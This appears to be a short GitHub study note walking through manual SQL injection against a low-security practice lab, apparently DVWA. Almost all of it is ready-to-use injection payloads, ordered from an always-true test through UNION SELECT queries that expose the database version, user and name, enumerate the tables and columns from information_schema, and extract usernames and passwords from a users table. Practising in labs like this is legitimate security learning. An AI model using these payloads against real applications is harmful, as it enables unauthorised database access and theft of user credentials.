# Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash
 %' or '1'='1 
```
 (Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash 
%' or 0=0 union select null, version() # ```  (# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash 
%' or 0=0 union select null, user() # ```

### DB name employed to this particular site
```bash
 %' or 0=0 union select null, database() # ```

### Displaying tables as information scema
```bash 
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # ```


[guessing table name start with prefix user and then anything could be...]

```bash
 %' and 1=0 union select null, table_name from information_schema.tables # ``` [displaying all the tables]

### Interest Zone--Users Table-->
```bash
 %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # ```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information
```bash 
%' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # ```
